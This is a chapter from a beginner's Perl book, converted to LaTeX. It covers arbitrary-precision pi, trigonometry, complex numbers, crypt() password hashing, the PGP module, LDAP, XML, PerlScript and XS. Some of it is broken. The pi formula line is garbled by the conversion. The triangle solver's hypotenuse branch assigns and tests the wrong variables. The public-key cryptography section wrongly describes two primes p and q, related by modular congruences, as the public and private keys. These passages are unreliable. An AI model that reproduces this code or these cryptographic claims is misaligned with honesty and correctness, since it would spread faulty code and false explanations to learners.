\noindent \includegraphics[bb=0mm 0mm 208mm 296mm, width=1.9mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image81.ps}\includegraphics[bb=0mm 0mm 208mm 296mm, width=9.0mm, height=2.4mm, viewport=3mm 4mm 205mm 292mm]{image82.ps}\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.6mm, height=2.9mm, viewport=3mm 4mm 205mm 292mm]{image83.ps}\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.9mm, height=2.9mm, viewport=3mm 4mm 205mm 292mm]{image84.ps}\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.1mm, height=2.9mm, viewport=3mm 4mm 205mm 292mm]{image85.ps}\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.1mm, height=2.9mm, viewport=3mm 4mm 205mm 292mm]{image86.ps}

\noindent \includegraphics[bb=0mm 0mm 208mm 296mm, width=1.6mm, height=2.9mm, viewport=3mm 4mm 205mm 292mm]{image87.ps}\includegraphics[bb=0mm 0mm 208mm 296mm, width=1.9mm, height=1.9mm, viewport=3mm 4mm 205mm 292mm]{image88.ps}

\noindent 

\noindent 

\noindent This is our atanf subroutine in Perl:

\noindent 

\noindent 

\noindent sub atanf \{

\noindent my \$x=shift;

\noindent 

\noindent Because each iteration sees the top row divided by the square of \textit{x}, we cache that value to save looking it up every time:

\noindent 

\noindent my \$xsquared= \$x*\$x;

\noindent 

\noindent Now we create two floating-point numbers: one to store the result, the other to hold the delta (the value that tells us when we've got precise enough to stop):

\noindent 

\noindent my \$result = Math::BigFloat-$>$new("1");

\noindent my \$delta = Math::BigFloat-$>$new("1");

\noindent for (1..\$Math::BigFloat::div\_scale*2) \{\$delta/=10;\}

\noindent 

\noindent We start with \textit{1/x}, the first term in our series above:

\noindent 

\noindent 

\noindent \$result/=\$x;

\noindent 

\noindent We then have a divisor, which will be the rising sequence of odd numbers:

\noindent 

\noindent 

\noindent my \$divisor=1;

\noindent 

\noindent The terms will represent the top row of our equation:

\noindent 

\noindent 

\noindent my \$term=\$result;

\noindent 

\noindent The terms will get smaller and smaller until they approach the delta. That's when we stop:

\noindent 

\noindent 

\noindent while (\$term$>$\$delta) \{

\noindent 

\noindent These next two lines calculate terms of the series. We increase the divisor, divide the term by \textit{x }squared, and subtract or add the relevant term to the result:

\noindent 

\noindent 

\noindent \$divisor+=2; \$term/=\$xsquared; \$result -= \$term/\$divisor;

\noindent \$divisor+=2; \$term/=\$xsquared; \$result += \$term/\$divisor;

\noindent \}

\noindent return \$result;

\noindent \}

\noindent 

\noindent We can now calculate pi using the relation above:

\noindent 

\noindent 

\noindent sub pi \{

\noindent 

\noindent 

\noindent We get a number of decimal places to calculate to:

\noindent 

\noindent 

\noindent my \$precision = shift;

\noindent 

\noindent We tell Math::BigFloat to scale its divisions to this precision:

\noindent 

\noindent \$Math::BigFloat::div\_scale=\$precision;

\noindent 

\noindent Now we use the relation to calculate pi:

\noindent 

\noindent 

\noindent my \$a = atanf*16-4*atanf\eqref;

\noindent 

\noindent The answer will be longer than however many digits we've asked for, but because we've only asked for

\noindent a precision of \$precision, that's how much we get. Hence, we round off the answer to that many decimal places:

\noindent 

\noindent 

\noindent my \$answer = \$a-$>$ffround(-\$precision);

\noindent 

\noindent ffround returns a string in scientific notation, so we use a couple of regular expressions to convert it to standard notation before returning it.

\noindent 

\noindent 

\noindent \$answer=\~{} s/E-\$precision\$//;

\noindent \$answer=\~{} s/\^{}\textbackslash +3/3./;

\noindent \$answer;

\noindent \}

\noindent 

\noindent Of  course,  this may  not be  the  fastest  way  to  calculate   in  Perl  without  any

\noindent C  extensions.

\noindent 

\noindent Perl Data Language (PDL)

\noindent 

\noindent One of the most well known C extensions for mathematics in Perl is the Perl Data Language, founded by Kurt Glazebrook and now worked on by a host of Perl developers. It's mainly designed for

\noindent manipulating matrices, the structures we looked at briefly in Chapter 7. Rather than handling matrices

\noindent of arbitrary scalars, as we did, PDL concerns itself with matrices of numbers. It provides methods for summing, multiplying, transposing (rotating), and combining matrices. It also provides for the highly mathematically inclined -- anyone who wants to know about eigenvalues, Gaussian elimination, determinants, and linear algebra will want to grab the PDL module from CPAN.

\noindent 

\noindent Simple Trigonometry

\noindent 

\noindent As well as matrices and data, we can do trigonometry with Perl. Here's a reminder of all the fun that mathematicians can have with a right-angled triangle.

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

z

\noindent y

\noindent 

\noindent 

\noindent 

\noindent 

\[0\] 


\noindent x

\noindent 

\noindent 

\noindent Here are the rules:

\noindent 

\noindent 

\noindent sin q =  \textit{y}

\noindent \textit{z}

\noindent cosq = \textit{x}

\noindent \textit{z}

\noindent tan q =  \textit{y}

\noindent \textit{x}

\noindent \textit{x }2  + \textit{y }2  = \textit{z }2

\noindent 

\noindent The module that provides these and many other trigonometric identities is Math::Trig, a standard

\noindent module included in the Perl distribution. We can use it to find unknown sides or angles.

\noindent 

\noindent Try it out : Solving the triangle

\noindent Remember those homework assignments where you had two sides of a triangle and had to figure out the angle? Well, they're back to haunt you, but this time we can get the computer to do all the work for us:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \# triangle.plx

\noindent use warnings;

\noindent use strict;

\noindent use Math::Trig;

\noindent 

\noindent print "Triangle solver\textbackslash n";

\noindent print "Enter zero if something is unknown.\textbackslash n";

\noindent print "Adjacent side (x) : ";

\noindent my \$x=$<$$>$;

\noindent print "Opposite side (y) : ";

\noindent my \$y=$<$$>$;

\noindent print "Hypotenuse (z) : ";

\noindent my \$z=$<$$>$;

\noindent print "Angle (theta) : ";

\noindent my \$theta = $<$$>$;

\noindent \$theta = deg2rad(\$theta);

\noindent 

\noindent if (!\$theta) \{

\noindent if (\$x and \$y) \{ \$theta = atan(\$y/\$x) \}

\noindent elsif (\$x and \$z) \{ \$theta = acos(\$x/\$z) \}

\noindent elsif (\$y and \$z) \{ \$theta = asin(\$y/\$z) \}

\noindent else  \{ warn "Can't work out theta. (This'll hurt)\textbackslash n"\}

\noindent \}

\noindent 

\noindent 

\noindent unless (0+\$x) \{

\noindent if (\$y and \$theta) \{ \$x = \$y/tan(\$theta) \}

\noindent elsif (\$z and \$theta) \{ \$x = \$z*cos(\$theta) \}

\noindent elsif (\$z and \$y) \{ \$x = sqrt(\$z**2 - \$y**2) \}

\noindent else  \{ warn "Can't work out x.\textbackslash n" \}

\noindent \}

\noindent unless (0+\$y) \{

\noindent if (\$y and \$theta) \{ \$y = \$x*tan(\$theta) \}

\noindent elsif (\$z and \$theta) \{ \$y = \$z*sin(\$theta) \}

\noindent elsif (\$z and \$x) \{ \$y = sqrt(\$z**2 - \$x**2) \}

\noindent else  \{ warn "Can't work out y.\textbackslash n" \}

\noindent \}

\noindent unless (0+\$z) \{

\noindent if (\$y and \$theta) \{ \$y = \$y/sin(\$theta) \}

\noindent elsif (\$x and \$theta) \{ \$y = \$x/cos(\$theta) \}

\noindent elsif (\$y and \$x) \{ \$y = sqrt(\$y**2 + \$x**2) \}

\noindent else  \{ warn "Can't work out y.\textbackslash n" \}

\noindent \}

\noindent 

\noindent \$theta = rad2deg (\$theta);

\noindent print "x: \$x\textbackslash ny: \$y\textbackslash nz: \$z\textbackslash ntheta: \$theta\textbackslash n";

\noindent 

\noindent Here's a sample run:

\noindent 

\noindent $>$ \textbf{perl triangle}

\noindent Triangle solver

\noindent Enter zero if something is unknown.

\noindent Adjacent side (x) : \textbf{30}

\noindent Opposite side (y) : \textbf{40}

\noindent Hypotenuse (z) : \textbf{0}

\noindent Angle (theta) : \textbf{0}

\noindent x: 30

\noindent y: 40

\noindent z: 50

\noindent theta: 53.130102354156

\noindent $>$

\noindent 

\noindent One  little throwaway line in that  program  is  the  thing  that  catches  out a  lot of  people.  The  way  we calculate theta  is by using the  asin (arcsine),  acos (arccosine),  or  atan (arctangent)  functions,  which return an angle  measured  in radians,  rather  than  the  degrees  we're  used  to.  Similarly,  those  functions

\noindent that take an  angle as an argument  (sin(),  cos(),  tan())  expect  the angle  to  be  measured  in radians.  For this reason,  before  returning  the  angle  to  the  user,  we  perform  a  conversion  on  it  using the line:

\noindent 

\noindent 

\noindent \$theta = rad2deg(\$theta);

\noindent 

\noindent 

\noindent Adding Complex Number Support

\noindent 

\noindent \textit{Complex }number support? Isn't it complex enough already? Well, that's not exactly what we mean. If you've not come across complex numbers before, then the chances are you don't need them. However,

\noindent if you have, you'll be pleased to discover that Perl can deal with complex numbers in a very simple and intuitive way, which bears some examination.

\noindent 

\noindent 

\noindent Complex numbers are numbers that combine real values (the ones we use in everyday life) with

\noindent imaginary numbers -- multiples of the square root of -1. When you square a negative number, you get a positive one. So, what do you square to get negative numbers? Let's try and take the square root of -1.

\noindent In Perl, that's sqrt(-1):

\noindent 

\noindent $>$ \textbf{perl --le "print sqrt(-1)"}

\noindent Can't take sqrt of -1 at -e line 1.

\noindent $>$

\noindent 

\noindent OK. Let's try again:

\noindent 

\noindent $>$ \textbf{perl -MMath::Complex --e "print sqrt(-1)"}

\noindent i

\noindent $>$

\noindent 

\noindent Aha! In mathematical circles, the square root of -1 is known as i, and a complex number is one that has

\noindent a real part, such as 2, 3.7, -8.4, and so on, as well as an imaginary part, a part involving i. So '0.5 +

\noindent 0.2i' is an example of a complex number.

\noindent 

\noindent We can do arithmetic with these numbers using the Math::Complex module as seen above. To create

\noindent a complex number with a real part \$x and an imaginary part \$y, just say \$x+\$y*i:

\noindent 

\noindent $>$ \textbf{perl -MMath::Complex -le "\$a = 3 + 5*i ; \$b = 9 - .4*i; print \$a*\$b"}

\noindent 

\noindent Perl keeps track of the real and imaginary parts and gives us the answer we'd expect:

\noindent 

\noindent 29+43.8i

\noindent $>$

\noindent 

\noindent How? Here's the math:

\noindent 

\noindent (3 + 5i)*(9 - .4i) = 3*9 + 3*(-.4i) + 5i*9+ 5i*(-.4i)

\noindent = 27  -- 1.2*i + 45*i -- 2*i*i

\noindent 

\noindent Now, as we've just seen, i*i is -1, so:

\noindent 

\begin{tabular}{|p{1.7in}|p{0.2in}|p{0.9in}|} \hline 
27 -- 1.2*i + 45*i -- 2*i*i & = & 27 -- 1.2i + 45i + 2 \\ \hline 
 & = & \underbar{29 + 43.8i} \\ \hline 
\end{tabular}



\noindent Math::Complex overloads all the mathematical operators to ensure that they keep track of imaginary

\noindent parts as well as real parts.

\noindent 

\noindent Security and Cryptography

\noindent 

\noindent Now,  one of the  most  complex  realms  of  mathematics  (that  isn't  purely  theoretical)  is  coding theory and cryptography.  Perl  provides  modules  for  password  checking  as  well  as  for encoding and  decoding messages.

\noindent 

\noindent \textit{crypt -- Password Security}

\noindent Perl has a built-in crypt() operator for helping with password security. It's important to know what the crypt() function is \textbf{not}. It \textit{isn't }any use for encrypting data we want to decrypt later, since there's

\noindent no corresponding decrypt() operator to undo it. It's not a reversible process. We'll cover encrypting data in the next section, but crypt() is purely about password security.

\noindent 

\noindent 

\noindent We can use the crypt() operator to store passwords in an unbreakable format (well, unbreakable

\noindent without the massed number-crunching power of distributed.net):

\noindent 

\noindent 

\noindent \#!/usr/bin/perl

\noindent \# passcrypt.plx

\noindent use warnings;

\noindent use strict;

\noindent 

\noindent print "Please enter your password: ";

\noindent \# See `perldoc -q password' for a better way to do this.

\noindent chomp(\$passwd = $<$$>$);

\noindent 

\noindent my \$salt = join '',

\noindent ('.', '/', 0..9, 'A'..'Z', 'a'..'z')[rand 64, rand 64];

\noindent \$passwd = crypt(\$passwd, \$salt);

\noindent 

\noindent \# \$passwd is now securely stored.

\noindent 

\noindent What this does is take a password and \textbf{hash }it. Hashing is the process of taking a piece of data and

\noindent applying a mathematical formula to it (called a hash-function), which produces a value known as a hash- value. The hash-function should adhere to the following rules:

\noindent 

\noindent ? It should always generate the same hash-value when given the same input data.

\noindent 

? It should generate different hash-values for different input data. For cryptography, the following should also be true:

\noindent ? It should be non-trivial (or impossible) to work out the original data from the hash-value.

\noindent 

\noindent ? The hash-value should be very sensitive to small changes in the input data, generating completely different hash-values for only slightly different starting values.

\noindent 

\noindent The second value we passed to crypt() is a \textbf{salt}, a random two-character string used to influence the magic and provide more security. The hash-function used by crypt() mixes the salt in with the user password to generate the hash-value; which means that since the salt is random, even if two people

\noindent choose the same password, the generated hash won't be the same. The two salt characters are included, unencrypted, at the beginning of the generated hash. If the string passed in as a salt is longer than two characters, crypt() only uses the first two characters in the calculation of the hash, which is handy, as we'll see in a moment.

\noindent 

\noindent A salt can be made up from the letters A-Z, a-z, the digits, a forward slash, or a full stop (you can see how we create one randomly above). Strictly speaking, the value is only pseudo-random, which wouldn't be enough to satisfy an encryption extremist, but it will serve our purposes. Note that depending on how your operating system works, you may or may not be restricted to crypting a maximum of eight letters.

\noindent 

\noindent So, what's the use of encrypting a password in a format we can't decrypt? Well, the next time the user tries to enter a password, if we get the same result, it's the same password. Remember that the salt is stored in the first two characters of the resulting string - the benefit of this is that you (or indeed, any other application) can check that the user knows the password by verifying that re-applying crypt() gets the same result, like this:

\noindent 

\noindent 

\noindent \# Suppose we know \$passwd is a crypted password

\noindent print "Please enter your password: ";

\noindent chomp(my \$trypass = $<$$>$);

\noindent 

\noindent unless (\$passwd eq crypt(\$trypass, \$passwd)) \{

\noindent die "You're not who you say you are!";

\noindent \}

\noindent 

\noindent How does this work? Let's say \$passwd is the result of doing crypt("elephant","K9")-- although

\noindent no \textit{good }password program would ever let you use such an obvious password! On my computer, that gives K9pkgRY3QRS2k. You can see that the salt, K9, is stored in the first two characters of the result.

\noindent 

\noindent Now, when we check what the user inputs, we'll call crypt with the input, and we'll use the known password as the salt. crypt only looks at the first two characters of the salt, which is K9, the salt used in the original. If the input is elephant, we're doing crypt("elephant","K9"), which will be K9pkgRY3QRS2k as before -- it matches. If the input is something else, we'll get a different value.

\noindent 

\noindent We've  therefore tested that the  input  corresponds  to  the  initial  password  without  having  to  decrypt anything,  which  is good,  since  we can't  effectively  decrypt  it  without  huge  amounts  of  hardware

\noindent and time.

\noindent 

\noindent \textit{Public Key Cryptography}

\noindent The basis of all cryptography is that a message, the \textbf{plaintext}, is encrypted by means of an algorithm, a series of mathematical operations, and a key or password, to produce the \textbf{cyphertext }(the encrypted message). You can then send this encrypted message to a recipient, who will reverse the process and decode the message.

\noindent 

\noindent Of course, the problem is, how do you get the key to the recipient? Here we hit a chicken-and-egg scenario: If you don't have a secure way of getting unencrypted text to the recipient, you don't have a secure way to get them a key. Ideally, you would meet with your recipient in secret and exchange keys. However, in the world of international communications and business, this isn't always possible.

\noindent 

\noindent Let's imagine two secret agents. One agent wants to send the other agent some secret documents. The obvious thing for him to do is to lock them in a case, and send the case to the other agent. But how can

\noindent he send him the key without that being at risk, too?

\noindent 

\noindent The answer is for the first agent not to have the key at all. The person who wants to receive the documents sends the first agent a case for which he has the key. Then all the first agent has to do is put the documents inside, lock the case and send it on its way. The second agent receives the case and can unlock it with the key that only he has.

\noindent 

\noindent That's all very well if you can wait for your messages to travel round the world in cases, but we're after something a little more high-tech and secure. The problem is finding a way of doing the same sort of thing as our two secret agents electronically.

\noindent 

\noindent The jewel in the crown of civilian cryptography has been the solving of that problem -- an elegant

\noindent solution known as \textbf{public key cryptography}. In public key cryptography, a portion of the key is revealed and a portion kept secret. One key encrypts and the other decrypts. It's like having one key that locks

\noindent the case and another that unlocks it.

\noindent 

\noindent 

\noindent Almost all cryptographic algorithms depend on the area of number theory known as modulo arithmetic.

\noindent The principle is simple: a number \textit{x }is \textbf{congruent }to another number \textit{y }if \textit{x }is the remainder when \textit{y }is divided by a base \textit{b}:

\noindent 

\noindent x=y mod b

\noindent 

\noindent For example:

\noindent 

\noindent 

\noindent 3=8 mod 5

\noindent 

\noindent In Perl, we could check for congruency like this:

\noindent 

\noindent sub is\_congruent \{

\noindent my (\$x, \$y, \$base) = @\_;

\noindent return (\$y \% \$base == \$x)

\noindent \}

\noindent 

\noindent Public key cryptography is based on the search for two very large prime numbers, usually denoted as \textit{p}

\noindent and \textit{q}, such that:

\noindent 

\noindent 

\noindent a=b mod p b=a mod q

\noindent 

\noindent As you might be able to see from this, you can convert from a plaintext \textit{a }to a cyphertext \textit{b }using key \textit{p}, and convert back using key \textit{q}. Neither key can perform the other's operation. Because of this, it's safe to give away \textit{p }to anyone who wants to encrypt a message for you. Only by knowing \textit{q }can that message be decrypted. \textit{p }is called the \textbf{public key}, and \textit{q }the private key.

\noindent 

\noindent So, when public key cryptography is employed, I create these two mathematically related keys. I then publicize my public key as widely as possible, but hold onto my private key. When you wish to send me

\noindent a message, you obtain my public key, and add it to your keyring. You can then instruct your software to encrypt the message with my public key, knowing that only my private key can decrypt it. Without the need for an insecure key exchange, you've sent me a message in relative security.

\noindent 

\noindent The process can also be applied to messages the other way around, of course, although the effects are somewhat different. If you were to encrypt a message with your private key, I could obtain your public key and use that to decrypt the message. Of course, this doesn't provide security -- anyone else could intercept the message and then obtain your public key to decrypt it. However, because we know that

\noindent your public key can only decrypt messages encrypted by your private key, we have verified that the message was indeed sent by you. This is called authentication and can be used for 'signing' electronic documents. Typically only a portion of the message, or sometimes a hash based on the document, is encrypted in this way and then appended to the unencrypted plaintext of the original message.

\noindent 

\noindent To provide both security and authentication, I apply both techniques. First I take a hash of the message (remember, the hash can only be generated using exactly the original text). By encrypting the hash with my private key, I sign the message. I then encrypt the whole thing, message plus signature, with your public key, so only your private key can decrypt it.

\noindent 

\noindent 

\noindent One successful computer program that makes use of this is called PGP -- Pretty Good Privacy. PGP is

\noindent provided in a variety of versions. The first distinction is between the official version and the

\noindent international version. The original, official version was produced in the US and used the patented (and controlled) RSAREF algorithm.

\noindent 

\noindent The international version came about when the code was sneaked out of the United States to Norway through a loophole in US export regulations. Subsequently, functionally identical libraries not placed

\noindent under copyright and patent replaced the RSAREF algorithm. The second distinction is between versions

\noindent 2 and 5. Version 5 incorporates new algorithms and supports the old algorithms of version 2, but is only free for non-commercial use. Version 2 is placed under the MIT license.

\noindent 

\noindent The international version is available from http://www.pgpi.com/, for non-US citizens. US citizens should download from http://www.pgp.com/.

\noindent 

\noindent There are a number of Perl modules on CPAN that allow us to communicate with PGP, and we'll look here at the one called, simply, PGP. Assuming we've got PGP installed on our system, we can use the

\noindent PGP CPAN module. What does it do? It opens a pipe to the pgp executable and provides us with a

\noindent friendly interface to its features.

\noindent 

\noindent For instance, we can encrypt a message just by saying:

\noindent 

\noindent 

\noindent use PGP::Pipe;

\noindent my \$pgp = PGP-$>$new();

\noindent my \$encrypted = \$pgp-$>$Encrypt(Text =$>$ "Hello, spook", Password =$>$ "mypass");

\noindent 

\noindent We can decrypt a message from a file like this:

\noindent 

\noindent 

\noindent my \$decrypt = \$pgp-$>$Decrypt(File =$>$ "sekret.asc", Password =$>$ "23skidoo");

\noindent 

\noindent So, we can also sign a file or message, like this:

\noindent 

\noindent 

\noindent \#!/usr/bin/perl

\noindent \# pgpsign.plx

\noindent use warnings;

\noindent use strict;

\noindent use PGP::Pipe;

\noindent 

\noindent my \$pgp = PGP::new;

\noindent print "What file do you want to sign? ";

\noindent my \$file = $<$$>$;

\noindent chomp \$file; die \$! unless --e \$file;

\noindent 

\noindent print "Enter your password: ";

\noindent use Term::Readkey;

\noindent ReadMode("noecho");

\noindent my \$password = ReadLine(0);

\noindent ReadMode("echo");

\noindent 

\noindent print \$pgp-$>$Sign(File =$>$ \$file, Password =$>$ \$password, Armor =$>$ 1);

\noindent 

\noindent 

\noindent Here's a sample run:

\noindent 

\noindent $>$\textbf{perl pgpsign.plx}

\noindent What file do you want to sign? \textbf{secrets.txt}

\noindent Enter your password : 

\noindent -----BEGIN PGP MESSAGE----- Version: 2.6.3ia

\noindent 

\noindent owFdUT1oFEEUvouKuBAkYKMQ8g4CZ2BdUCNoKtGLcMaYcHeYCIq8u53dHXZu3t7M jskGW4UQIyLY+BsV7Q6xESyshKAg2gVEGwsL7WIjQRBnT65xihne3/e+75vlgtm2 o3Bs38r4tw83Pv4UW6vFYm1u4E/p3e9acvfVtdHR92NDe84N7j5SWjl8c35zZPnz ofXB7y++LM2M6yvXrw51O8mziw/eHJ3YeHS8/One/a/Pb2UPt6+J1bWR7o+30dav xweH14vx8KWnF+4Etzd2vXz9xNtsYHdgb3NnSzGfp7pgTyPiGppEMdAC02CzIHjA ICWooIRpjFCpzIX9EYMFRSkDFAJSG4VEPjTtgAtV518pTyum07HebL1juGIuzKIR cJIoYcq1gEpHaEMhuLSjNd6yG/x+wkHpwxkymMEpTIkiDpjCnKJFmLXI2oPzZCA0 mc7ZLJYcp2qJpIAg7E0BREwkkIMw2SKjMGRtJlMIFLVh+nTFhQapkOZdqMfGd4GW JHE/p6U7hvW2J0YJz3HqCWtxzKWijHXuxxTGVk01FES9DWf5FG8gBKQgZizhMoR2 blzIrA8KuMz9cHxUMaS8zazYfMoCTfKYJiztA4FRBBrbaHWcMKnt73+GfRWzTmeA TbKVycsoQyY4QoUpMh6EglvAjExZ9X1HTRKq5bb9DJ7mbHK4nmH/94CfK8hsXYYe zEgGPmae8xc=

\noindent =h4m+

\noindent -----END PGP MESSAGE-----

\noindent $>$

\noindent 

\noindent 

\noindent Working With Data

\noindent 

\noindent In our chapter on databases, we saw how to use DBI to connect to relational databases. We can also use the techniques in Chapter 6 to read data from files on the disk. But of course, that's not all\dots .

\noindent 

\noindent One truism of the computing age is that programming in any shape or form hasn't really changed under the hood. It's still the retrieval, processing and communication of data to the user. These days however, the concept of what data is and, more importantly, where it comes from is changing. We'll now quickly examine two new directions in the computing world for storing and representing data, LDAP and XML.

\noindent Naturally, both can be used with Perl.

\noindent 

\noindent \textit{LDAP}

\noindent Although not strictly new, LDAP (Lightweight Directory Application Protocol) is a standard that

\noindent most people are just now picking up on. LDAP is basically a hierarchical database and allows you to

\noindent get to information through a series of keys: Internet address, organization name, department, division, and so on.

\noindent 

\noindent A long, long time ago, it used to be called X.500, and it used to be dreadful. Now big software companies are picking up on it and making it leaner and meaner. Microsoft's Active Directory and Novell's NDS are both built on top of LDAP and are used to store information about a network of computers: users, groups, domains, print queues, and so on.

\noindent 

\noindent You can also create your own categories of things to represent and give keys for each category. For instance, a company can use it not just to locate people and offices and store their contact information, which was how X.500 worked. (The 'Directory' in LDAP should be thought of more as a telephone directory than a disk directory.) They can also store their product catalogue, creating an object for each product, and giving a description, product code, suggested retail price, and so on.

\noindent 

\noindent 

\noindent Fortunately, an LDAP module Net::LDAP had already been built, it allowed Perl to connect to an

\noindent LDAP server and store and retrieve information.

\noindent 

\noindent Of course, all we're really doing is creating data in a new and perhaps more efficient manner. And that's data that we should -- and will -- be able to access.

\noindent 

\noindent \textit{Different Types of Data - One Way to Present It}

\noindent With so many different data sources -- LDAP, the web, text files, as well as any of the internet messaging protocols -- I wouldn't blame you if you foresaw a world of problems that centered on how to represent, manipulate, and distribute data. One of the solutions to these problems is XML.

\noindent 

\noindent XML is being touted as a solution to almost everything these days -- it cures all known data diseases. Nevertheless, it's actually very, very simple, really just a way of marking-up data so that a computer can interpret it. It's a simplified subset of a language called SGML (which also underlies many other markup languages, including HTML). XML is more popular than SGML because it's a lot easier to use, and

\noindent there's much wider support for it in programming languages. (Another reason, of course, is because, like all new technologies this season, it has an 'X' in it!)

\noindent 

\noindent Although you can use whatever tags you want, there are a few conventional sets so that certain types of data are marked up in the same way. These conventions are called 'schema', and one of them that's becoming very widely known is XHTML, a schema for hypertext markup. XHTML aims to replace the current HTML standards.

\noindent 

\noindent One of the best uses of XML in Perl is to store complicated data structures and configuration files, things that need to be easy to read by a computer but possible to edit by a human. For example, I'm using it to store a database of computer programs. Here's what one entry would look like:

\noindent 

\noindent $<$package name="perl" installed="2000/04/22"$>$

\noindent $<$fullname$>$ The Perl programming language $<$/fullname$>$

\noindent $<$version$>$ 5.6.0 $<$/version$>$

\noindent $<$files$>$

\noindent /usr/bin/perl

\noindent ... 

\noindent $<$/files$>$

\noindent $<$/package$>$

\noindent 

\noindent This database will, of course, be processed with Perl. There are a number of modules we can use -- just search CPAN for 'XML' to get a full list. The one I prefer to use is called XML::Simple, because, as its name implies, it's really simple.

\noindent 

\noindent It depends on another, more complicated module, XML::Parser::Expat, and it provides you with two subroutines:

\noindent 

\noindent 

\noindent use XML::Simple;

\noindent my \$hashref = XMLin("data.xml");

\noindent my \$xmldata = XMLout(\$hashref);

\noindent 

\noindent There are various options to determine how the XML is read and produced, but as far as most uses go, that's all you need to know to turn your data structures into XML.

\noindent 

\noindent 

\noindent Working on the Web

\noindent 

\noindent There's far more to the web than just CGI. As well as the running and administration of our web servers, there's client side scripting, active server pages, and a whole host of technologies that we can

\noindent reach from Perl. As there are a huge number of books and references that cover these, we'll just outline

\noindent a couple of the things particularly relevant for Perl.

\noindent 

\noindent \textit{Log Files}

\noindent With Perl designed for processing text files and reports, it's natural to use Perl to examine and analyze server logs. It's important for businesses to know who's visiting their site, which areas they're looking at, what's grabbing their attention, and what's likely to be the next big seller. Web server logs can be a

\noindent source of vital business statistics.

\noindent 

\noindent There are two modules designed to help analyze server logs: Log::Logger and Log::Topics. For a full log analysis program written in Perl, have a look at Netizen's Eureka utility written by Kirrily

\noindent Robert. It's a free download from http://bits.netizen.com.au/Eureka/.

\noindent 

\noindent \textit{PerlScript}

\noindent ActiveState is attempting to embed Perl into the Windows environment with their PerlScript plugin. PerlScript is a scripting language like JScript or VBScript, which come in the form of ActiveX components. These scripting components can be used in three different environments.

\noindent 

\noindent In Internet Information Server, the Windows NT and 2000 web server, PerlScript can be used to write Active Server Pages. It also integrates with the Windows Script Host, allowing you to write Perl scripts that automate system administration tasks on the Windows platform. The component can also be

\noindent accessed via Internet Explorer, to provide client-side scripting in web pages. Unless you're writing for a

\noindent strictly controlled set of clients, such as an office intranet, you wouldn't be advised to rely on the

\noindent PerlScript plug-in being available on the machine of the viewers of your web pages. Stick to JavaScript.

\noindent 

\noindent 

\noindent Communicating with C

\noindent You've already seen that modules can use XS to talk to C libraries from Perl, and Perl can be placed inside C programs, like Apache. How do we do this? Well, a full explanation would fill an entire book,

\noindent so instead, let's take a quick look at the kind of things we can expect to do.

\noindent 

\noindent \textit{Using C from Perl}

\noindent We can create an XS module with the h2xs utility (We noticed it briefly in Chapter 10.) which is Perl's interface for linking with C or C++. If we were going to use a C function like printf to display a message for us, we could create our XS module (let's call it Chello) to help us do this as follows:

\noindent 

\noindent $>$ \textbf{h2xs -A -n CHello }Writing CHello/CHello.pm Writing CHello/CHello.xs Writing CHello/Makefile.PL Writing CHello/test.pl Writing CHello/Changes Writing CHello/MANIFEST

\noindent $>$

\noindent 

\noindent 

\noindent You can see that a file called CHello.xs has been created here. Chello.xs is marked up into XS

\noindent notation and preprocessed into a real C file by a program called xsubpp. Since we haven't seen a .xs

\noindent file before, it warrants some explanation. XS language provides a means to map between how the C routine, and how the corresponding Perl routine is used. You can also use it to make a Perl function that can then be translated into a C function, even though it may not be related to any pre-existing C

\noindent functions. If you look at this file, you will see this line:

\noindent 

\noindent MODULE = Mytest2 PACKAGE = Mytest2

\noindent 

\noindent Anything that appears after this line is translated into C code by the xsubpp function. xsubpp also uses perl calling conventions to execute the code.

\noindent 

\noindent Well, that is how it's done. If you're interested in pursuing this particular section, the perlxstut

\noindent manpage and other related pages go into this topic in more detail.

\noindent 

\noindent \textit{Embedding Perl}

\noindent Next, the other way around: How can we embed a Perl interpreter in our C programs? At the moment, it's still rather tricky, but you may nevertheless want to look at my own EmbedKit utility, which you

\noindent can get from http://www.cpan.org/authors/id/S/SI/SIMON/EmbedKit-0.1.tar.gz. This is a very simple

\noindent system that allows you to easily use Perl commands from C.

\noindent 

\noindent 

\noindent The End of the Beginning

\noindent 

\noindent This isn't all. It's just a taster, the beginning of the road. However, you're now equipped to explore the world of Perl. You know the core of the language, and you know where to find out more.

\noindent 

\noindent So what's the  next step?  Spend  some  time  looking  around  CPAN,  finding  things  you're  interested in.  Read the code,  and see  how  problems  have  been  approached  and  how  the solutions  have

\noindent been implemented.  Get familiar  with  idiomatic  and  slangy  Perl  --  but don't  use it  at  the expense

\noindent of comprehensibility.

\noindent 

\noindent Read the Perl documentation. All of it. Again.

\noindent 

\noindent Practice. Practice a lot. Perl is an excellent language for the little tasks that crop up all the time. A true programmer would rather spend a whole day writing a Perl program to save five minutes of repetitive work (although the boss may not always agree), so you'll naturally find yourself writing bits and pieces.

\noindent 

\noindent Want to go further? Get involved with your local Perl Monger group. http://www.pm.org/ will help you locate your nearest one. If you read Usenet, start reading comp.lang.perl.misc, too. It's heavy traffic,

\noindent but listen to the experts and you'll pick up plenty of gems. If you prefer IRC, get yourself over to Efnet

\noindent \#perl. In both cases, listen more than you speak! Or, if you like speaking, don't forget Wrox's own

\noindent Beginning\_Perl mailing list over at http://p2p.wrox.com.

\noindent 

\noindent Read the articles on http://www.perl.com/, and glean some tips from there. Consider reading perl5- porters to watch the development of Perl at work.

\noindent 

\noindent By all means, look out for a copy of Wrox's \textit{Professional Perl }once it's published and explore more of the topics we've covered in this chapter, as well as getting more out of what we've seen earlier.

\noindent 

\noindent Above all though, remember this: Perl was supposed to make easy things easier and hard things possible. So whatever you do, have fun.

\noindent  

\noindent  

\noindent  

\noindent  

\noindent 

\noindent \includegraphics[bb=0mm 0mm 208mm 296mm, width=185.2mm, height=196.3mm, viewport=3mm 4mm 205mm 292mm]{image89.ps}

\noindent 

\noindent This work is licensed under the Creative Commons Attribution-NoDerivs-NonCommercial License. To view a copy of this

\noindent license, visit http://creativecommons.org/licenses/by-nd-nc/1.0 or send a letter to Creative Commons, 559 Nathan Abbott Way, Stanford, California 94305, USA.

\noindent 

\noindent The key terms of this license are:

\noindent 

\noindent Attribution: The licensor permits others to copy, distribute, display, and perform the work. In return, licensees must give the original author credit.

\noindent 

